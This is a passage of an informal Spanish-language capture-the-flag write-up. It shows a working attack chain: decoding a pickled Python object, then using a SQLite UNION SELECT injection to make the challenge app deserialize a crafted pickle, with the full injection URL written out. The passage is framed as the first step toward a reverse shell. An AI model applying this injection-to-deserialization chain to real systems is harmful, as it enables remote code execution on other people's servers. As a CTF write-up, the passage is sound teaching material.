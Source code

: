 Bueno acá hubo un fail y es que según `stackoverflow` tiene que estar como mínimo definida la clase `Elf`.

Gracias por tanto `stackoverflow` y perdón por tan poco.

{% highlight python %}
>>> class Elf:
...    pass
...
>>> elf = pickle.loads(b64decode(b'gASVWgAAAAAAAACMCF9fbWFpbl9flIwDRWxmlJOUKYGUfZQojARuYW1llIwFU25vd3mUjAhhY3Rpdml0eZSMG0xvb2tpbmcgYXQgdGhlIG5hdWdodHkgbGlzdJSMAmlklE51Yi4='))
>>>
>>> dir(elf)
['__class__', '__delattr__', '__dict__', '__dir__', '__doc__', '__eq__', '__format__', '__ge__', '__getattribute__', '__gt__', '__hash__', '__init__', '__init_subclass__', '__le__', '__lt__', '__module__', '__ne__', '__new__', '__reduce__', '__reduce_ex__', '__repr__', '__setattr__', '__sizeof__', '__str__', '__subclasshook__', '__weakref__', 'activity', 'id', 'name']

>>> elf.name, elf.activity, elf.id
('Snowy', 'Looking at the naughty list', None)

{% endhighlight %}

# Muchaaachoooss esta noche quiero un Reverse Shell

Primero lo primero, podemos decirle a la app: `Deserializamela`?.

Si, por medio de la bendita `SQLite Injection`. Metemos un `UNION SELECT` y forzamos a que la app tome el primer valor con `LIMIT`, que seria nuestro objeto serializado.

Algo asi:

`1 UNION SELECT <falopa64> LIMIT 1`

Vamos a modificar unos valores en el objeto `Elf` para probar, lo serializamos y lo inyectamos como loco.

{% highlight python %}
>>> from base64 import b64encode

>>> elf.name = 'Messi'
>>> elf.activity = 'Que mira bobo'
>>> elf.id = None

>>> b64encode(pickle.dumps(elf))
b'gASVTAAAAAAAAACMCF9fbWFpbl9flIwDRWxmlJOUKYGUfZQojARuYW1llIwFTWVzc2mUjAhhY3Rpdml0eZSMDVF1ZSBtaXJhIGJvYm+UjAJpZJROdWIu'
>>>

{% endhighlight %}

Mandaleee meeechaaaa.

{% highlight text %}
http://challs.htsp.ro:13001/1%20UNION%20SELECT%20'gASVTAAAAAAAAACMCF9fbWFpbl9flIwDRWxmlJOUKYGUfZQojARuYW1llIwFTWVzc2mUjAhhY3Rpdml0eZSMDVF1ZSBtaXJhIGJvYm+UjAJpZJROdWIu'%20LIMIT%201
{% endhighlight %}
